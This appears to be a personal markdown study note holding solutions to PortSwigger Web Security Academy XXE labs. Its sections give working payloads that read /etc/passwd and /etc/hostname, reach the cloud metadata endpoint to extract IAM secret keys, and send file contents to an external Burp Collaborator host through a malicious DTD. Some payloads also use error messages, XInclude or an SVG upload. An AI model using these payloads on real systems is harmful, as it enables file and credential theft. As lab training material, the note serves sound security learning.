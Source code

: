 ## Table of Contents

- [[#Exploiting XXE using external entities to retrieve files]]
- [[#Exploiting XXE to perform SSRF attacks]]
- [[#Blind XXE with out-of-band interaction]]
- [[#Blind XXE with out-of-band interaction via XML parameter entities]]
- [[#Exploiting blind XXE to exfiltrate data using a malicious external DTD]]
- [[#Exploiting blind XXE to retrieve data via error messages]]
- [[#Exploiting XInclude to retrieve files]]
- [[#Exploiting XXE via image file upload]]
- _**[[#Payloads]]**_

## Exploiting XXE using external entities to retrieve files
Reference: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

```ad-done
title: Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
~~~
3. Replace the ``productId`` number with a reference to the external entity: ``&xxe;``. The response should contain "Invalid product ID:" followed by the contents of the ``/etc/passwd`` file.
```

## Exploiting XXE to perform SSRF attacks
Reference: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

```ad-done
title: Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
~~~
3. Replace the ``productId`` number with a reference to the external entity: ``&xxe;``. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
4. Iteratively update the URL in the DTD to explore the API until you reach ``/latest/meta-data/iam/security-credentials/admin``. This should return JSON containing the ``SecretAccessKey``.
```

## Blind XXE with out-of-band interaction
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

```ad-done
title: Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
~~~
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
~~~
5. Replace the ``productId`` number with a reference to the external entity:
~~~
&xxe;
~~~
6. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```

## Blind XXE with out-of-band interaction via XML parameter entities
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

```ad-done
title: Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
~~~
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
~~~
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```

## Exploiting blind XXE to exfiltrate data using a malicious external DTD
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration

```ad-hint
title: Quick Solution
In this lab a **malicious** DTD must be crafted and hosted on the exploit server and the **check stock** request must be tampered by adding a XML parameter entity. Payload in the next paragraph.
```

```ad-done
title: Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Place the Burp Collaborator payload into a malicious DTD file:
~~~xmlc
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
~~~
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
~~~
7. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the ``/etc/hostname`` file.
```

## Exploiting blind XXE to retrieve data via error messages
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages

```ad-done
title: Solution
1. Click "Go to exploit server" and save the following malicious DTD file on your server:
~~~
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
~~~
When imported, this page will read the contents of ``/etc/passwd`` into the ``file`` entity, and then try to use that entity in a file path.
1. Click "View exploit" and take a note of the URL for your malicious DTD.
2. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
3. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
~~~
You should see an error message containing the contents of the ``/etc/passwd`` file.
```

## Exploiting XInclude to retrieve files
Reference: https://portswigger.net/web-security/xxe/lab-xinclude-attack

```ad-done
title: Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the ``productId`` parameter to:
~~~
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
~~~
```

## Exploiting XXE via image file upload
Reference: https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

```ad-done
title: Solution
1. Create a local SVG image with the following content:
~~~xml
<?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
~~~
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the ``/etc/hostname`` file in your image. Use the "Submit solution" button to submit the value of the server hostname.
```

# Payloads
![[PAYLOADS]]
![[XXEPayloads]]
